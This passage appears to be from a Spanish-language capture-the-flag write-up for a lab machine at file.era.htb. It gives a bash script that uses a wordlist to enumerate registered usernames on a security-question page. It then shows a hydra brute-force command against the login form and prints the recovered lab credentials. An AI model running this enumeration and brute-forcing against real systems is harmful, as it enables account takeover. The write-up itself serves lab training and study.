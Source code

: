 >>> cuando un usuario si esta registrado el mensaje es `Incorrect answers. Please try again.`

<img width="1920" height="1056" alt="image" src="https://github.com/user-attachments/assets/eafaad25-9f7a-49ba-8d2d-a285ada348bd" />

para determinar los usuarios que se encuentran registrados vamos a tener que hacer un ataque de diccionario para encontrarlos, por lo que primero me armo un script que automatice esto

```bash
nano script.sh
```
```bash
#!/bin/bash

echo -e "Testeando Usuarios!\n..."

while IFS= read -r USER; do
    status=$(curl -s -X POST http://file.era.htb/security_login.php -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://file.era.htb" -H "Referer: http://file.era.htb/security_login.php" -d "username=$USER&answer1=123&answer2=354rf&answer3=erg" | grep -w 'Incorrect answers. Please try again.' | awk -F ">|<|'|=" '{print $6}')
    if [[ "$status" == "Incorrect answers. Please try again." ]]; then
        echo -e "Usuario Detectado: $USER"
    fi
done < /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt

```

ejecutamos el script

```bash
bash script.sh
```

<img width="1920" height="268" alt="image" src="https://github.com/user-attachments/assets/32b38e98-f183-44a0-ac90-d2bd09eb4060" />

vemos que nos saca 2 usuarios registrados por lo que ahora hacemos un ataque de diccionario contra el panel de login

```bash
hydra -l eric -P /usr/share/wordlists/rockyou.txt 'http-post-form://file.era.htb/login.php:submitted=true&username=^USER^&password=^PASS^:Invalid username or password.' -I -F -f
```

<img width="1920" height="257" alt="image" src="https://github.com/user-attachments/assets/06cc4d96-8860-4a84-b9e4-eb381325130f" />

obtenemos credenciales para el usuario `eric`

>>> credenciales eric:america

accedmos al portal y en la seccion de carga de archivos vemos lo siguiente al testear cargar un archivo

<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/ab047a80-b6d3-4d9e-9e47-6c64ea5e4153" />

accedemos al `link: http://file.era.htb/download.php?id=6758`

